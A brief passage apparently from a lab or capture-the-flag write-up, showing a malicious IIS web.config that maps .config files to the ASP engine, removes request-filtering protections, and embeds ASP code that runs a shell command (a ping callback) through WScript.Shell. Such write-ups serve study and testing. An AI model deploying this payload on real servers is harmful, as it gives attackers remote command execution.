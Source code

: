 ![Pasted image 20250518171531.png](images/Pasted_image_20250518171531.png)

# Exploitation

- For this exploitation technique, I first tested with a simple ICMP callback using ping to verify command execution.
- Here's the malicious web.config file:

aspx

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping 10.10.16.10")
o = cmd.StdOut.ReadAll()
Response.Write(o)
%>
-->
```

